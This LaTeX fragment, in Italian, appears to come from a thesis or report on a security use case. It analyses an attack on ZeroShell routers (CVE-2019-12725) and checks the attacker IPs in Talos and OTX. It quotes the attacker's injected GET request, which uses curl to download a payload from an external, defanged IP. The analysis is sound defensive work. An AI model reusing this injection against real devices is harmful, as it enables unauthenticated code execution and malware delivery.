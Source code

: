 \begin{figure}[h]
    \begin{center}
        \includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talos.jpg}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con Cisco Talos Intelligence }
    \label{fig:Analisi IP1 con Talos}
\end{figure} 

\newpage

\begin{figure}[h]
    \begin{center}
        \includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/otxIP.PNG}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con OTX}
    \label{fig:Analisi IP1 con OTX}
\end{figure} 

L’attaccante tenta di sfruttare la vulnerabilità di tipo "remote code execution" non autenticato su router ZeroShell Linux (CVE-2019-12725), tramite la seguente chiamata GET in http: 

\begin{center}
    \textit{**IP pubblico **:/cgi-bin/kerbynet?Section=NoAuthREQ\&Action=x509List\&type=*";cd /tmp;curl -O http://5[.]206[.]227[.]228/zero zero;"}
\end{center}
 
 Esaminando la richiesa HTTP malevola osserviamo che e’ presente una CURL verso l’IP 5[.]206[.]227[.]228:
 
  \begin{figure}[h]
    \begin{center}
        \includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/taloIp2.png}
    \end{center}
    \caption{Analisi IP 5[.]206[.]227[.]228 con Cisco Talos Intelligence}
    \label{fig:Analisi IP2 con Talos}
\end{figure} 
 
